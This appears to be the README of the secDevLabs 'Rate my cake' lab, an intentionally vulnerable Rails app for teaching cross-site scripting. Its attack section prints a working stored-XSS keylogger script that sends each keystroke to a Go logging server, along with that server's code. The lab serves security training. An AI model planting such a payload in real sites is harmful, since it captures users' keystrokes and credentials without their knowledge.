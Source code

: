# Rate my cake 🍰

<p align="center">
    <img src="images/01.png"/>
</p>

Rate my cake is a Rails web application where you rate the freshly baked rainbow cake of Mr cakelover and leave a kind message. The application has a problem though, it has XSS vulnerabilities.

## Index

- [Rate my cake 🍰](#rate-my-cake-)
  - [Index](#index)
  - [What is Cross-Site Scripting?](#what-is-cross-site-scripting)
  - [Setup](#setup)
  - [Get to know the app](#get-to-know-the-app)
  - [Attack narrative](#attack-narrative)
    - [🔥](#)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/rate-my-cake
```

```sh
make install
```

Then simply visit [localhost:3000][app] ! 😆

## Get to know the app

This application is designed to be the most straight forward as possible so no user creation is required.

- Access localhost:3000
- Leave your rate to Mr Cakelover

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

So lets leave a rate to Mr Cakelover

Adding a new rate:
<img src="images/02.png" align="center"/>
<small>Click on 'Leave a rate' button</small>

Let's try out something and test if the application is skipping html code on comments:

<img src="images/03.png" align="center"/>

<small> Surround the `Love It` (or anything you like) with a `<b>` (bold) tag and click `Submit`. A visualization screen will appear, click `Back` to get back to the index </small>

Ok, lets check the result:

<img src="images/04.png" align="center"/>

<small>Yeap ! It looks like the developer has committed a very common mistake and forgot to skip the HTML code on the comment input.
This leaves space for a malicious attacker to inject Javascript code into the application.</small>

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/rates/new** route by using the following code in the text field:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

The attacker now gets all the input on the server log, as shown below:

<img src="images/05.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
